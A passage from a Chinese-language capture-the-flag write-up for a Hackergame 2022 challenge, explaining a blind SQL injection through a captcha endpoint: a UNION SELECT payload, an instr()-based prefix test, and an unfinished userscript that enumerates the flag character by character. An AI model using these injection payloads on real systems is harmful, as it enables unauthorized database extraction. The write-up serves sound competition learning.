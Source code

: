 ```sql
select riskness from users where username = 'Simple-1'
  union select flag from flag -- '
```

并没有出现什么错误。但是，如何把 flag 的信息传递出来呢？似乎没有办法传递这么一长串文本。我们知道，如果匹配成功，系统会显示简单的数字验证码；如果没成功，则会显示高难度的验证码。于是我们可以使用猜 flag 的方法。使用 `where instr(flag, 'flag{...')` 可以检验某字符串是否是 flag 的前缀（这里利用了大括号中不可能再出现 `flag{` 这一点）。这样，就可以逐个枚举字符来构造出 flag。

注：这里没有使用 `like`。这是因为 `like` 的模式串中涉及过多特殊字符难以处理，且这种比较不区分大小写。

至于怎么判断验证码是否是数字验证码... 那就手动吧。就这么点工作量，不会有逝的。剩下的工作，就交给脚本了！

```javascript
// ==UserScript==
// @name        Hackergame 2022 DontPanic
// @namespace   Hackergame 2022
// @require     https://cdn.jsdelivr.net/npm/jquery@3.2.1/dist/jquery.min.js
// ==/UserScript==

$(() => {
  let getCaptchaData = (username) => new Promise((resolve) => {
    // 验证码的显示方式是先获取 base64 编码，然后显示到图片框上。
    $.ajax({
      url: 'captcha',
      type: 'POST',
      data: {
        username: username
      },
      dataType: 'json',
      success: (e) => {
        if(e.result) {
          resolve(e.result)
        } else {
          resolve(null)
        }
      },
      error: (e) => {
        resolve(null)
      }
    })
  })
  let showCaptcha = (data) => {
    $('#capimg').attr('src', 'data:image/png;charset=utf-8;base64,' + data)
  }
  let delay = (t) => new Promise((resolve) => {
    setTimeout(resolve, t)
  })
  let tryFlagPrefix = async (text) => {
    let inject = `Simple-1' and 1=0 union select '1' from flag ` +
      `where instr(flag, '${text.replace(/'/g,"''")}') -- `
    showCaptcha(await getCaptchaData(inject))
    await delay(50)
    return confirm('Does the captcha look good?' + "\n" + text)
  }

  let charset = `0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz` +
    `'!"#$%&\'()*+,-./0123456789:;<=>?@[\\]^_${'`'}{|}~`

  let prefix = ''
  if(localStorage.getItem('panic-checkpoint')) {
    prefix = localStorage.getItem('panic-checkpoint')
  }

  let tryCharacter = async () => {
    for(let i = 0; i < charset.length; i++) {
```